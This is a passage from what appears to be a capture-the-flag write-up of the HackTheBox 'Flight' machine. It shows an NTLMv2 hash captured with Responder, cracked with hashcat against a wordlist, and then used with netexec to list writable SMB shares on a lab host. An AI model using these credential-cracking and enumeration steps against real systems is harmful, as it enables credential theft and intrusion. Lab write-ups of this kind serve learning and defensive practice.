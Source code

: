 Responder grabbed a hash from C.Bum XD. Let’s see if his password is as good as his lat spread.

<img src="/assets/img/flight/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">

And it wasn’t :(.

```bash
hashcat -m 5600 ntlmv2.hash.1 /usr/share/wordlists/rockyou.txt
C.BUM::flight.htb:41960e710475...:<REDACTED>
```

<img src="/assets/img/flight/Untitled 6.png" alt="Untitled 6.png" style="width:800px;">

This time we have juicy write permissions on the Web's share.

```bash
netexec smb 10.129.228.120 -u "c.bum" -p '<REDACTED>' --shares
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\c.bum:<REDACTED> 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
```